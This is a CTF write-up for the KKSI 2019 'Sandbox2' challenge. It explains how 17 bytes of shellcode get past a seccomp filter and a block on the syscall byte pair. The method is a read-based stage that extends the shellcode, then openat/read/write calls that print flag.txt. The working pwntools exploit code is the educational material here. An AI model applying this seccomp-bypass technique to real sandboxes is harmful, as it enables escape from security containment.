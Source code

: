 ```yaml
---
layout: post
title: Kompetisi Keamanan Siber Indonesia CTF Quals 2019 - Sandbox2
date: 2019-12-17 00:00:00
categories: 
    - ctf
tags:
    - ctf
    - linux
    - x64
    - sandbox escape
---
```


### Sources

[https://github.com/fachrioktavian/ctf-writeup/tree/master/kksiquals19/sandbox2](https://github.com/fachrioktavian/ctf-writeup/tree/master/kksiquals19/sandbox2)

### Summary

This is a sandbox escape challenge, got from KKSI CTF Quals 2019.

#### Overview

This is a simple sandbox binary, it asks input from user. Those input then will be executed as a code.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  unsigned int i;

  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  printf("> ", 0LL);
  read(0, shellcode, 17uLL);
  for ( i = 0; i <= 0x10; ++i )
  {
    if ( shellcode[i] == 15 && shellcode[i + 1] == 5 )
    {
      puts("[*] blocked !");
      return -1;
    }
  }
  install_syscall_filter();
  (*shellcode)(0LL, shellcode);
  return 0;
}
```

```terminal
❯ ./sandbox2
> asd
[1]    22650 illegal hardware instruction (core dumped)  ./sandbox2
```

Its limitation is we can only submit a maximum 17 bytes of shellcode and seccomp protection is applied to the binary. We can't use some syscalls in the shellcode.

```terminal
❯ seccomp-tools dump sandbox2
>
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x01 0x00 0xc000003e  if (A == ARCH_X86_64) goto 0003
 0002: 0x06 0x00 0x00 0x00000000  return KILL
 0003: 0x20 0x00 0x00 0x00000000  A = sys_number
 0004: 0x15 0x00 0x01 0x00000002  if (A != open) goto 0006
 0005: 0x06 0x00 0x00 0x00000000  return KILL
 0006: 0x15 0x00 0x01 0x00000039  if (A != fork) goto 0008
 0007: 0x06 0x00 0x00 0x00000000  return KILL
 0008: 0x15 0x00 0x01 0x0000003a  if (A != vfork) goto 0010
 0009: 0x06 0x00 0x00 0x00000000  return KILL
 0010: 0x15 0x00 0x01 0x00000038  if (A != clone) goto 0012
 0011: 0x06 0x00 0x00 0x00000000  return KILL
 0012: 0x15 0x00 0x01 0x00000065  if (A != ptrace) goto 0014
 0013: 0x06 0x00 0x00 0x00000000  return KILL
 0014: 0x15 0x00 0x01 0x00000009  if (A != mmap) goto 0016
 0015: 0x06 0x00 0x00 0x00000000  return KILL
 0016: 0x15 0x00 0x01 0x0000009d  if (A != prctl) goto 0018
 0017: 0x06 0x00 0x00 0x00000000  return KILL
 0018: 0x15 0x00 0x01 0x0000003b  if (A != execve) goto 0020
 0019: 0x06 0x00 0x00 0x00000000  return KILL
 0020: 0x15 0x00 0x01 0x00000142  if (A != execveat) goto 0022
 0021: 0x06 0x00 0x00 0x00000000  return KILL
 0022: 0x06 0x00 0x00 0x7fff0000  return ALLOW
```

Binary's protection:

```terminal
❯ checksec sandbox2
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

#### Exploitation's scenario

1. No PIE enabled so first we need to extend our shellcode by calling syscall `read`.

2. Using `openat`, `read`, and `write` syscalls to print value from flag.txt.

### Exploitation

#### Helper

```python
r = process("./sandbox2", aslr=1)
e = ELF('./sandbox2', checksec=False)

gdb.attach(r, "b *0x400C18\nb* 0x400BA5") # for debugging
```

#### Stage 1. Extending shellcode

Because our shellcode can't be longer than 17 bytes, so we should use the space as best as possible. After debugging the binary, found that register `r12` holds address to `start` region. Subtract it a bit to point to `read` function. Then set return address value to where our next shellcode lies.

```python
pload1 = "sub r12, 80\n"
pload1 += "mov [rsp+0x18], rdx\n"
pload1 += "mov esi, edx\n"
pload1 += "xor edi, edi\n"
pload1 += "call r12\n"
pload1 += "ret\n"

pload1 = asm(pload1, vma=e.sym['shellcode'])
pload1 = pload1.ljust(0x11, '\x90')

r.recv()
r.send(pload1)
```

#### Stage 2. Reading flag

Because `open` is restricted by seccomp, we use `openat` that has similar functionality to `open`.

```python
pload2 = asm(
    shellcraft.linux.openat(-100, 'flag.txt', 0) +
    shellcraft.linux.read('rax', 'rsp', 0x200) +
    shellcraft.linux.write(1, 'rsp', 0x200) +
    "leave\nret"
)

pload2 = "\x90"*20 + pload2

r.send(pload2)

log.success(r.recv())
```

#### Result

```terminal
❯ python solve.py
[+] Starting local process './sandbox2': pid 24962
[*] Stage 1 > Extending shellcode
[*] Stage 2 > Reading flag
[*] Process './sandbox2' stopped with exit code 0 (pid 24962)
[+] flag{dummy_flag}
    \x0c@\x00\x00\x00\x00\x00�g�^\x11\x00\x00\x00\xb0 `\x00\x00\x00\x00\x00\xb0 `\x00\x00\x00\x00\x00\x97k�fs\x7f\x00\x00\x00\x00\x00\x00\x00\x00\x00�g�^�\x7f\x00\x00\x00\x80\x00\x00\x00\x00\x00?\x0b@\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x85\x84����Ё0\x07@\x00\x00\x00\x00\x00�g�^�\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x85\x84�*\x18L(~\x85\x84\x1a2\x86<6\x7f\x00\x00\x00\x00�\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x003g\x0egs\x7f\x00\x008�
         gs\x7f\x00\x00\x0e\xb4\x04\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x000\x07@\x00\x00\x00\x00\x00�g�^�Z@\x00\x00\x00\x00\x00�g�^�\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xb9\x81\x9f^�\x00\x00\x00\x00\x00\x00ā\x9f^�΁\x9f^���\x9f^��\x9f^�-�\x9f^�E�\x9f^�]�\x9f^�~�\x9f^���\x9f^���\x9f^���\x9f^���\x9f^�˂\x9f^�ۂ\x9f^���\x9f^���\x9f^���\x9f^��\x9f^��\x9f^�5�\x9f^�I�\x9f^�\�\x9f^���\x9f^�ӄ\x9f^���\x9f^���\x9f^�
                       �\x9f^�!�\x9f^�

```

